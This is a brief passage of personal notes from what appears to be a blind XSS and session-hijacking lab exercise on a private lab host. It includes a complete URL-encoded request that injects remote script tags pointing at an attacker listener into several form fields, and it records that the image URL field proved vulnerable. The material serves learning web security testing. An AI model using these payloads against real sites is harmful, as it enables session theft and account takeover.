 ![](Images/Pasted%20image%2020240124204359.png)

this means that it is not vulnerable and we can skip it   
we may also want to skip the password variable because these are usually hashed and not shown in cleartext 

our URL looks like: 

`http://10.129.151.122/hijacking/?fullname=%3Cscript+src%3Dhttp%3A%2F%2F10.10.15.210%3A81%2Ffullname%3E%3C%2Fscript%3E&username=%3Cscript+src%3Dhttp%3A%2F%2F10.10.15.210%3A81%2Fusername%3E%3C%2Fscript%3E&password=test&email=test%40test.com&imgurl=%3Cscript+src%3Dhttp%3A%2F%2F10.10.15.210%3A81%2Fimgurl%3E%3C%2Fscript%3E`

and when we go through and test different types of payloads we can see that the image url upload field is vulnerable after using the payload that starts with `">`:

![](Images/Pasted%20image%2020240124205303.png)